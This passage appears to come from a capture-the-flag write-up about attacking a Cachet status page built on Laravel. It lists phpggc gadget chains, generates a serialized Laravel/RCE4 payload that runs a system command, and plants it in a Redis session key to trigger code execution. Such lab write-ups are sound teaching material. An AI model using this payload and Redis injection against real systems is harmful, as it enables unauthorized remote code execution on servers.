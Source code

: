 There’s a bunch of payloads for Laravel:

    
    
    oxdf@hacky$ /opt/phpggc/phpggc -l | grep -i laravel
    Laravel/RCE1                              5.4.27                             RCE (Function call)    __destruct          
    Laravel/RCE10                             5.6.0 <= 9.1.8+                    RCE (Function call)    __toString          
    Laravel/RCE2                              5.4.0 <= 8.6.9+                    RCE (Function call)    __destruct          
    Laravel/RCE3                              5.5.0 <= 5.8.35                    RCE (Function call)    __destruct     *    
    Laravel/RCE4                              5.4.0 <= 8.6.9+                    RCE (Function call)    __destruct          
    Laravel/RCE5                              5.8.30                             RCE (PHP code)         __destruct     *    
    Laravel/RCE6                              5.5.* <= 5.8.35                    RCE (PHP code)         __destruct     *    
    Laravel/RCE7                              ? <= 8.16.1                        RCE (Function call)    __destruct     *    
    Laravel/RCE8                              7.0.0 <= 8.6.9+                    RCE (Function call)    __destruct     *    
    Laravel/RCE9                              5.4.0 <= 9.1.8+                    RCE (Function call)    __destruct
    

These are all payloads that will make use of functions available in the
application to get code running on deserialization.

On the GitHub page for Cachet, there’s a couple references to Laravel:

[![image-20220629133553627](https://0xdfimages.gitlab.io/img/image-20220629133553627.png)_Click
for full size
image_](https://0xdfimages.gitlab.io/img/image-20220629133553627.png)

These imply that it’s using at least Laravel 5.7. `Laravel/RCE4` seems to
cover the range I’m targeting (5.4.0 <= 8.6.9+), so I’ll build a payload to
run `id`:

    
    
    oxdf@hacky$ /opt/phpggc/phpggc -a Laravel/RCE4 system id
    O:40:"Illuminate\Broadcasting\PendingBroadcast":2:{S:9:"\00*\00events";O:31:"Illuminate\Validation\Validator":1:{S:10:"extensions";a:1:{S:0:"";S:6:"system";}}S:8:"\00*\00event";S:2:"id";}
    

I’ll get a fresh session in the cache, and update it:

    
    
    127.0.0.1:6379> keys *
    1) "laravel:rBjWQbicKo0nDt7IRC2jVI8kG0wReZuEfH7stO34"
    127.0.0.1:6379> set "laravel:rBjWQbicKo0nDt7IRC2jVI8kG0wReZuEfH7stO34" 'O:40:"Illuminate\Broadcasting\PendingBroadcast":2:{S:9:"\00*\00events";O:31:"Illuminate\Validation\Validator":1:{S:10:"extensions";a:1:{S:0:"";S:6:"system";}}S:8:"\00*\00event";S:2:"id";}'
    OK
    
